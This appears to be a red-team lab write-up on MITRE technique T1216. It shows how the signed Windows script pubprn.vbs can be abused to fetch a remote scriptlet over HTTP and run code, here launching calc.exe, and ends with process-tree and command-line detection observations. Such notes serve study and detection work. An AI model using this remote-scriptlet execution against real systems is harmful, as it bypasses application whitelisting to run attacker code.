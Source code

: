 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# T1216: pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch a calc.exe. First of, the xml that will be executed by the script:

{% code-tabs %}
{% code-tabs-item title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../.gitbook/assets/pubprn-csript.png)

![](../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can give be useful in detecting the script being abused:

![](../.gitbook/assets/pubprn-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1216" %}


